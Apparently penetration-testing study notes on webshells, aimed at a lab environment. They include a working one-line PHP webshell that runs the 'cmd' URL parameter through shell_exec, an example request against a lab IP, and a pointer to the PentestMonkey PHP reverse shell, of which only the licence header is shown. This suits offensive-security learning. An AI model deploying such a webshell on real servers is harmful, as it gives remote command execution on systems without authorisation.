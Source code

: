 ## WebShells
* May encounter websites that allow upload of executable files.
  * Ideally use this opportunity to upload code that would activate a reverse or bind shell.
  * Sometimes this is not possible.
  * Instead upload a webshell.
* Script that runs inside a web server (usually in a language such as PHP or ASP) and executes code on remote server.
* Commands entered into the webpage.
  * E.g. through a HTML form or directly as arguments in the URL.
* Commands executed by webshell script with results returned and written to the page.
* Can be extremely useful if there are firewalls in place.
* Stepping stone into a fully fledged reverse or bind shell.
```
<?php
// Take GET parameter in the URL and execute it with shell_exec()
echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```
* Any commands entered in the URL after `?cmd=` will be executed on the system.
* 'pre' elements are to ensure that the results are formatted correctly on the page.
* Use a GET parameter 'cmd' with the command 'ifconfig' to return the network information of the box.
```
http://10.10.84.199/uploads/shell.php?cmd=ifconfig
```
* Entering `ifconfig` (used to check the network interfaces on a Linux target) into the URL executed the command on the system and returned the results.
  * This would work for any other command (`whoami`, `hostname`, `arch`, etc).
* Variety of webshells available on Kali by default at `/usr/share/webshells`.
  * includes the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).
```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
```